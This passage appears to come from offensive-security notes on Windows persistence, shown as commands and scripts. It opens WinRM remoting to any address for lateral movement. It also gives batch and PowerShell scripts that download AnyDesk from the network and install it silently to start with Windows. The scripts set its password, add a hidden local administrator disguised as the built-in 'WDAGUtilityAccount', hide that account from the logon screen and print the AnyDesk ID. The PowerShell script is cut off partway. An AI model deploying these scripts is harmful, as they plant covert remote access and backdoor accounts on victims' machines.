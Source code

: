 ### 5.2 - Powershell

```
PS C:\> Enable-PSRemoting -Force

PS C:\> Get-NetFirewallRule -Name 'WINRM*' | Select-Object Name

PS C:\> Set-NetFirewallRule -Name 'WINRM-HTTP-In-TCP' -RemoteAddress Any 

PS C:\> Test-WSMan
```

Refer to [[WinRM Lateral Movement]] section to login

## 06 - Third-Party Programs

### 6.1 - AnyDesk

#### 6.1.1 - Automation

`$ cat deploy.bat`

---

```
mkdir %appdata%\appdata\local\AnyDesk
curl.exe -o %appdata%\appdata\local\temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
%appdata%\appdata\local\temp\anydesk.exe --install %appdata%\appdata\local\AnyDesk --start-with-win --slient
del %appdata%\appdata\local\temp\anydesk.exe
echo <password> | %appdata%\appdata\local\AnyDesk\AnyDesk.exe --set-password
net user WDAGUtilltyAccount <password> /add
net localgroup Administrators WDAGUtilltyAccount /add
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i
```

`$ cat deploy.ps1`

---

```powershell
function AnyDesk {
    $anydesk_folder = "C:\ProgramData\AnyDesk"
    mkdir $anydesk_folder
    $web = New-Object Net.WebClient
    $url = "https://download.anydesk.com/AnyDesk.exe"
    $file = "C:\ProgramData\AnyDesk.exe"
    $web.DownloadFile($url, $file)
    
    $username = "WDAGUtilltyAccount"
    $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
    $password_cmd = "<password>"

    # cmd.exe /c $file --install $anydesk_folder --start-with-win --silent

    # cmd.exe /c echo $password_cmd | $file --set-password

    # net user $username $password_cmd /add
    # net localgroup Administrators $username /add
    # reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f

    # cmd.exe /c $path --get-id

```